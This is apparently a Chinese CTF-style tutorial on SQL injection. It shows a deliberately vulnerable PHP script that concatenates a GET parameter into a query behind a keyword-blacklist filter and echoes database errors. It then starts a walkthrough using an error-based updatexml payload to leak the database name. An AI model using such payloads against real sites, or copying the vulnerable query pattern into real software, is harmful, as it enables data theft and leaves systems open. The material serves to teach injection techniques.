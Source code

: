 PHP Script：

```php
<?php
require_once './conf.php';
$con = mysqli_connect(MYSQL_HOST, MYSQL_USER, MYSQL_PASSWORD, MYSQL_DB);

function waf($input)
{
    if (preg_match("/create|ascii|set|insert|and|union|substr|limit|pad|=|\/|\*|\&|\||\\s/i", $input)) {
        die("NO");
    }
}

if ($con) {
    $name = $_GET['name'];
    waf($name);
    if ($name !== 'flag') {
        $sql = "SELECT * FROM `show` WHERE `name`='$name'";
        $result = mysqli_query($con, $sql);
        $row = mysqli_fetch_array($result, MYSQLI_ASSOC);
        $str = '';
        if (mysqli_error($con)) {
            $str = mysqli_error($con);
        } else {
            $str = $row['name'] . " : " . $row['content'];
        }
        echo substr($str, 0, 52);
    } else {
        echo "name = tips?";
    }
} else {
    die("Could not connect to DB");
}

```

请自行将MySQL的配置写在conf.php中。

### 2. 获取所有数据库名

接下来我们思考一件事情，如何在上述的限制条件下，获取到所有的数据库名？

首先我们看常规注入，使用updatexml报错将信息带出来，传入：

```http
name=tips'or(updatexml(1,concat('~',database()),1))%23
```

此时可以得到回显为：

```http
XPATH syntax error: '~test'
```
